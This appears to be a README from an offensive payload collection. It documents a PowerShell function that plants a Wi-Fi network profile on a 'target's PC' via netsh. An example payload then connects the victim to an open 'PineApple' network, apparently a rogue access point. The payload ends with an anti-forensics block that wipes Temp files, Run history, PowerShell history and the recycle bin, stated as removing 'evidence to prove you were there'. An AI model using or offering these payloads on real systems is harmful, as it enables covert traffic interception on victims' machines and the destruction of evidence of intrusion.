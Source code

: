 ## Description

This function will add a network profile to your targets PC  

## The Function

### [Add-NetWork] 

This function will accept 3 parameters, 1 is mandatory 

You always have to provide the $SSID to give your network a name 

The $Security parameter is defined automatically when providing a password or not 

This will tell the function whether or not you need a wifi password for your network 

If a wifi password is deemed necessary you provide it using the $PW variable 

Set-up a new network profile on your targets PC using the following syntax: 

```PowerShell
# For a network profile using a Password use:

Add-NetWork -SSID wifi-name -PW wifi-password

# For a network profile NOT using a Password use:

Add-NetWork -SSID wifi-name 

```


```PowerShell
function Add-NetWork {

[CmdletBinding()]
param (	
[Parameter (Mandatory = $True)]
[string]$SSID,

[Parameter (Mandatory = $False)]
[Alias("s")]
[string]$Security,

[Parameter (Mandatory = $False)]
[string]$PW

)

if (!$PW) {$Security = "f"}
if ($PW) {$Security = "t"}

# -------------------------------------------------------------------------------------------------

$sec = switch ( $Security )
{
    "t"  { 
"
        <security>
            <authEncryption>
                <authentication>WPA2PSK</authentication>
                <encryption>AES</encryption>
                <useOneX>false</useOneX>
            </authEncryption>
            <sharedKey>
                <keyType>passPhrase</keyType>
                <protected>false</protected>
                <keyMaterial>$PW</keyMaterial>
            </sharedKey>
        </security>
"
}
    "f" { 

"
        <security>
            <authEncryption>
                <authentication>open</authentication>
                <encryption>none</encryption>
                <useOneX>false</useOneX>
            </authEncryption>
        </security>
" 

}
}

# -------------------------------------------------------------------------------------------------

$profilefile="ACprofile.xml"
$SSIDHEX=($SSID.ToCharArray() |foreach-object {'{0:X}' -f ([int]$_)}) -join''
$xmlfile="<?xml version=""1.0""?>
<WLANProfile xmlns=""http://www.microsoft.com/networking/WLAN/profile/v1"">
    <name>$SSID</name>
    <SSIDConfig>
        <SSID>
            <hex>$SSIDHEX</hex>
            <name>$SSID</name>
        </SSID>
    </SSIDConfig>
    <connectionType>ESS</connectionType>
    <connectionMode>auto</connectionMode>
    <MSM>
$sec
    </MSM>
</WLANProfile>
"

$XMLFILE > ($profilefile)
netsh wlan add profile filename="$($profilefile)"
}
```


## Examples 

Listed below are payloads that have used one of these functions:

- Add a Pineapple network profile
```PowerShell
$profilefile="Home.xml"
$SSID="PineApple"
$SSIDHEX=($SSID.ToCharArray() |foreach-object {'{0:X}' -f ([int]$_)}) -join''
$xmlfile="<?xml version=""1.0""?>
<WLANProfile xmlns=""http://www.microsoft.com/networking/WLAN/profile/v1"">
<name>$SSID</name>
<SSIDConfig>
<SSID>
<hex>$SSIDHEX</hex>
<name>$SSID</name>
</SSID>
</SSIDConfig>
<connectionType>ESS</connectionType>
<connectionMode>manual</connectionMode>
<MSM>
<security>
<authEncryption>
<authentication>open</authentication>
<encryption>none</encryption>
<useOneX>false</useOneX>
</authEncryption>
</security>
</MSM>
</WLANProfile>
"
$XMLFILE > ($profilefile)
netsh wlan add profile filename="$($profilefile)"
netsh wlan connect name=$SSID

#----------------------------------------------------------------------------------------------------

<#

.NOTES 
	This is to clean up behind you and remove any evidence to prove you were there
#>

# Delete contents of Temp folder 

rm $env:TEMP\* -r -Force -ErrorAction SilentlyContinue

# Delete run box history

reg delete HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU /va /f

# Delete powershell history

Remove-Item (Get-PSreadlineOption).HistorySavePath

# Deletes contents of recycle bin

Clear-RecycleBin -Force -ErrorAction SilentlyContinue
```
